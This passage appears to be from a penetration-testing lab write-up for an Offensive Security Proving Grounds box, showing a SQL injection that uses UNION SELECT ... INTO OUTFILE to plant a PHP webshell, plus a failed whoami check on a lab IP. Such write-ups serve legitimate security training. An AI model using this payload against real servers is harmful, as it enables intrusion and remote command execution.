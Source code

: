 ![](Images/Pasted%20image%2020221020191917.png)

- We receive an error showing it is vulnerable and has a SQL database running.

![](Images/Pasted%20image%2020221020192000.png)
#sqlinjection 

- Entering the SQL query below, we click "Request" and a webshell is created that permits the execution of shell commands.

' UNION SELECT (“<?php echo passthru($_GET[‘cmd’]);”) INTO OUTFILE ‘C:/xampp/htdocs/cmd.php’ — -'

![image](https://github.com/Bsal13/Offensive-Security-Proving-Grounds-Boxes/assets/90739944/ec9d665b-b507-4801-8bb5-a79683ac12b4)


- We try to access "192.168.224.127:33033/cmd.php?cmd=whoami" in order to verify Remote Command Execution, but nothing comes up.

# Port 45332
